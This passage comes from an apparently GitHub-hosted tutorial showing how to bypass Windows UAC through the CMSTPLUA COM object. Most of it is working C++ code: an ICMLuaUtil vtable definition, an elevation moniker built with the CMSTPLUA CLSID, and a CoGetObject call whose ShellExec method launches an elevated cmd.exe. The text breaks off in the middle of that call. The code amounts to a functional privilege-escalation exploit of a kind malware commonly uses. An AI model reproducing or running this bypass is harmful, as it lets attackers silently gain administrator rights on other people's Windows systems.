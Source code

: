  Next, we need to define the vftable (virtual function table), which is a hidden structure created by the compiler that holds pointers to the virtual functions of a class.  In our case, we are interested in the 7th Function/Method in the list, `ShellExec`.  AddRef() and Release() are considered inherited so we don't have to include them.  So technically we're setting up function/method stubs for SetRasCredentials to ShellExec.  It has to be in order by the way, so you can't just exclude the other methods and just point to ShellExec. 

![image](https://github.com/user-attachments/assets/0aa3b9fe-c6ab-46ba-b367-d2684daf17a2)


```cpp
struct ICMLuaUtil : public IUnknown {
    virtual HRESULT STDMETHODCALLTYPE Method1() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method2() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method3() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method4() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method5() = 0;
    virtual HRESULT STDMETHODCALLTYPE Method6() = 0;
    virtual HRESULT STDMETHODCALLTYPE ShellExec(
        LPCWSTR lpFile,
        LPCWSTR lpParameters,
        LPCWSTR lpDirectory,
        ULONG fMask,
        ULONG nShow) = 0;
};
```

Next, we will declare HRESULT values for error checking and a smart COM pointer to the ICMLuaUtil interface.  Then, we will prepare the moniker string to request elevation through COM:

Moniker String: **"Elevation:Administrator!new:{3E5FC7F9-9A51-4367-9063-A120244FBEC7}"** 

This moniker asks COM to create an elevated instance of the class CMSTPLUA.  We will next do some string to GUID conversions on CLSID and IID.  Then, we need to setup binding options for CoGetObject(), telling it to look for a local server COM object.  Finally, we use `CoGetObject()` with the special elevation moniker to request an elevated COM object implementing ICMLuaUtil.  If successful, it uses the `ShellExec` method of ICMLuaUtil to launch an elevated cmd.exe!

```cpp
int injector() {
    HRESULT hr, coi;
    CComPtr<ICMLuaUtil> spLuaUtil;
    WCHAR moniker[MAX_PATH] = L"Elevation:Administrator!new:";
    wcscat_s(moniker, CLSID_CMSTPLUA);

    CLSID clsid;
    IID iid;

    coi=CoInitialize(NULL);  

    if (FAILED(CLSIDFromString(CLSID_CMSTPLUA, &clsid)) ||
        FAILED(IIDFromString(IID_ICMLuaUtil, &iid))) {
        CoUninitialize();
        return -1;
    }

    BIND_OPTS3 opts;
    ZeroMemory(&opts, sizeof(opts));
    opts.cbStruct = sizeof(opts);
    opts.dwClassContext = CLSCTX_LOCAL_SERVER;

    hr = CoGetObject(moniker, (BIND_OPTS*)&opts, iid, (void**)&spLuaUtil);
    if (SUCCEEDED(hr) && spLuaUtil) {
        spLuaUtil->ShellExec(
            L"C:\\Windows\\System32\\cmd.exe",
            nullptr,
            nullptr,
```